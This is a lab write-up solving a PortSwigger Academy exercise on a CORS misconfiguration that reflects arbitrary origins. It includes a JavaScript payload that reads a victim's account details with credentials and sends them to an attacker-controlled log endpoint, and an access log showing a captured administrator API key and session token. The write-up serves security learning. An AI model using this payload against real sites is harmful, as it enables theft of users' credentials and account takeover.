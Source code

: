 # CORS vulnerability with basic origin reflection

## Description

The Academy website for [this lab](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack) has an insecure CORS configuration in that it trusts all origins. 

## Reproduction and proof of concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.

![CORS](../../_static/images/cors1.png)

2. Review the **HTTPhistory** in Burp: The key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.

![CORS](../../_static/images/cors2.png)

3. Send the request to **Burp Repeater**, and resubmit it with the added header:

```text
Origin: https://whatever.com
```

![CORS](../../_static/images/cors3.png)

The origin is reflected in the `Access-Control-Allow-Origin` header, meaning the application allows an arbitrary (public) origin, and `Access-Control-Allow-Credentials` is also true.

4. Create exploit (replacing `lab-id`):

```text
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://lab-id.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

5. Paste the exploit in the `body` field of the form in the exploit server.
6. Click **View exploit** and check you land on the log page and your API key is in the URL. 
7. **Deliver exploit to victim**.
8. Go to **Access log**

```text
...
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22PY3qD4pkDMg4WDq1CZvntWDlPE0TFUyV%22,%20%20%22sessions%22:%20[%20%20%20%20%22pEGInv0rQCAB3vDmrgkuharW591raOlV%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

9. Copy the administrator's API key, and enter it as solution to the lab.

## Exploitability

To exploit this vulnerability, an attacker would have to create an exploit from a well-know template. Then, the attacker would need to convince the administrator into visiting the page with the exploit, potentially giving the attacker access to the administrator's account and all associated privileges and resources.

## Impact

The attacker could disable account notifications, enable 2FA to lock them out, and transfer their data to an arbitrary address.

## Remediation

An attacker can directly forge a request from any trusted origin. Apply protections to sensitive data, such as authentication and session management, in addition to configuring CORS.